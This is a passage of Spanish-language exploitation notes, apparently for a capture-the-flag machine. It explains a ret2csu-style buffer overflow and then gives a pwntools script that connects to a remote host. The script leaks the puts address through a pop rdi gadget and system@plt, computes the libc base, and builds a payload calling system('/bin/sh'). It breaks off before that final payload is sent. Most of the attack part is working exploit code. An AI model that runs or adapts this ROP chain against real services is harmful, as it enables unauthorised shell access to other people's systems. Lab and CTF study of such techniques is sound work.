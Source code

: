 Todas las direcciones de memoria se han buscado con el comando `objdump -D ./myapp | grep "system"` o para la direccion de test con el
comando `objdump -D ./myapp | grep "test"`. Estos comandos se puenden usar porque le PIE esta desabilitado.

En este caso, que hace el script. El script nos permite finalmente ejecutar el applicativo con un flujo distincto para
ganar accesso al systema. El flujo es el siguiente.

1. Lanzamos el binario
1. Introducimos 112 A (120 del offset menos los 8 bytes del comando "/bin/sh\x00") => 7 caracteres + 1 nullByte.
1. Introducimos el commando `/bin/sh\x00`
1. Apuntamos a la direccion del gadget
1. Sobre escribimos el
    - r13 con la direccion de system
    - r14 como nullo
    - r15 como nullo
1. Introducimos la direccion de la funccion test


### Buffer Overflow x64 usando Memory leak {-}

```python
#!/usr/bin/python3

# Libc leaked

from pwn import *

context(terminal=['tmux', 'new-window'])
context(os='linux', arch='amd64')

p = remote("10.10.10.147", 1337)
# p = gdb.debug('./myapp', 'b *main')

junk = ("A"*120).encode()

# gef➤  ropper --search "pop rdi"
# 0x000000000040120b: pop rdi; ret; 

pop_rdi = p64(0x40120b)

# objdump -D ./myapp | grep "system"
# 0000000000401040 <system@plt>:
#   401040:       ff 25 da 2f 00 00       jmpq   *0x2fda(%rip)        # 404020 <system@GLIBC_2.2.5>
#   40116e:       e8 cd fe ff ff          callq  401040 <system@plt>

system_plt = p64(0x401040)
main = p64(0x40115f)
got_puts = p64(0x404018)

payload = junk + pop_rdi + got_puts + system_plt + main # system("whoami")

print(p.recvline())
p.sendline(payload)
leak_puts = u64(p.recvline().strip()[7:-11].ljust(8, "\x00".encode()))

log.info("Leaked puts address: %x" % leak_puts)

libc_leaked = leak_puts - 0x68f90
log.info("Leaked libc address: %x" % libc_leaked)
bin_sh = p64(libc_leaked + 0x161c19)

payload = junk + pop_rdi + bin_sh + system_plt
```